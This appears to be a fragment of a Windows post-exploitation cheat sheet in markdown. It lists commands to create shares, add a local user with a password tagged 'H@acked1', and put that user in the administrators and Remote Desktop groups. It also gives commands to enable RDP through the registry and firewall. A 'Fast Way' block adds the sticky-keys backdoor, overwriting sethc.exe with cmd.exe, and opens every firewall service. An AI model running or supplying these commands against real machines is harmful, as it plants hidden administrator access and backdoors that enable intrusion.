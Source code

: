 ## Open a Share on the host

```
net share sharename=folderpath /grant:username,permissions

sharename: You can assign name to the share you are going to create
username : Login id of the user whom you want to share the folder with
permission: Read, Change or Full
```


# Ennable Remote Desktop and let normal users through

## Add a new user and then change its password:

```
net user /add max
net user /add max H@acked1
```

## Enable Remote Desktop and let it through the firewall

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```


**Fast Way (Enable Remote Desktop and pop secret shell)**

```bat
net user /add max password
net localgroup administrators max /add
net localgroup "Remote Desktop Users" max  /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
netsh firewall set service ALL ENABLE ALL
```
---
<br/>

## Add normal users to the remote desktop group since, by default admins are only allowed for remote access

```
net localgroup "Remote Desktop Users" [USER]  /add
```

## Find Windows Arch
